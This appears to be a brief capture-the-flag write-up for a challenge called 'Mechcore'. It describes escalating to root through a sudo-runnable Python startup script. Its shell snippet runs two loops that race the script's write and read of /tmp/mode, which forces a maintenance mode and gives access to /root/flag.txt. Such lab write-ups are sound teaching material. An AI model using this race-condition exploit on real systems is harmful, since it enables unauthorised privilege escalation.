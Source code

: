 ## Mechcore

By running sudo -l we can see there is a startup file we can run as sudo.

We need to exploit a race condition that will let us go into maintenance mode by writing `MAINTENANCE` into the `/tmp/mode` file after the script writes `IDLE` in it at the beginning of its execution but before it gets read.

One possible way to exploit it is:

```shell
while true; do echo -n "MAINTENANCE" > /tmp/mode; sync /tmp/mode; done &
while true; do sudo /usr/bin/python3 /home/mechcore/startup.py; done
```

Flag is in /root/flag.txt